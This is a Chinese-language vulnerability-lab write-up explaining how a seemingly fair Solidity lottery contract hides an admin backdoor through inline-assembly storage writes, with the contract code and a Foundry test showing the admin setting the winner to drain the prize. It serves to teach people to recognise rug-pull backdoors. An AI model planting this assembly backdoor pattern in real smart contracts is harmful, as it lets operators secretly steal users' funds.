 # 合约中隐藏的后门  
[Backdoor-assembly.sol](https://github.com/SunWeb3Sec/DeFiVulnLabs/blob/main/src/test/Backdoor-assembly.sol)  
**名称：** 合约中隐藏的后门漏洞  
**描述：**   
在这份合同中，一个看似公平的“LotteryGame”合同被巧妙地设计为允许
合同部署人员/管理员有隐藏特权。  
这是通过使用汇编级访问存储变量来实现的，其中referee函数提供管理后门。  
“pickWinner”功能似乎是随机选择一个获胜者，但实际上，它允许管理员设置获胜者。  
这绕过了通常的访问控制，并可用于被未经授权的用户取走奖池中的所有资金，是rug pull的一种类型。  
攻击者可以通过编写内联汇编来操纵智能合约留下后门。  
任何敏感参数都可以随时更改。  


**场景：**  
抽奖游戏：只要运气好，任何人都可以调用pickWinner来中奖。
留有JST合约后门。许多rugged的合约都有类似的特征。
看起来合约中没有setWinner函数，管理员如何rug呢？  

**LotteryGame合约：**  
```
contract LotteryGame {
    uint256 public prize = 1000;
    address public winner;
    address public admin = msg.sender;

    modifier safeCheck() {
        if (msg.sender == referee()) {
            _;
        } else {
            getkWinner();
        }
    }

    function referee() internal view returns (address user) {
        assembly {
            //加载在插槽2上的存储的管理值 
            user := sload(2)
        }
    }

    function pickWinner(address random) public safeCheck {
        assembly {
            // 管理员后门，可以设置获胜者地址
            sstore(1, random)
        }
    }

    function getkWinner() public view returns (address) {
        console.log("Current winner: ", winner);
        return winner;
    }
}
```  
**如何测试：**  
forge test --contracts src/test/**Backdoor-assembly.sol** -vvvv
```
// 定义一个名为 testBackdoorCall 的公共函数
function testBackdoorCall() public {
    // 声明两个地址，alice和bob，并将它们的值设置为分别从vm.addr(1)和vm.addr(2)的地址。
    address alice = vm.addr(1);
    address bob = vm.addr(2);

    // 部署LotteryGame合约的新实例，并将引用存储在 LotteryGameContract变量中。
    LotteryGameContract = new LotteryGame();

    // 打印一条消息，指示 Alice 将调用 pickWinner 函数，但她实际上不会是获胜者。
    console.log("Alice performs pickWinner, of course she will not be a winner");

    // Call the prank function of vm with Alice's address as an argument, implying some manipulation may occur.
    vm.prank(alice);

    // 调用LotteryGameContract的pickWinner函数，将Alice 的地址作为参数传递。
    LotteryGameContract.pickWinner(address(alice));

    // 在pickWinner函数调用后打印当前奖金。
    console.log("Prize: ", LotteryGameContract.prize());

    // 打印一条消息，表明管理员将设置获胜者以取光奖金。
    console.log("Now, admin sets the winner to drain out the prize.");

    // 再次调用LotteryGameContract的pickWinner函数，但这次传递Bob的地址作为参数。
    LotteryGameContract.pickWinner(address(bob));

    // 打印由管理员操作的获胜者的地址。
    console.log("Admin manipulated winner: ", LotteryGameContract.winner());
```  
**红框：** 恶意设置的赢家可以中奖。
![Alt text](image-10.png)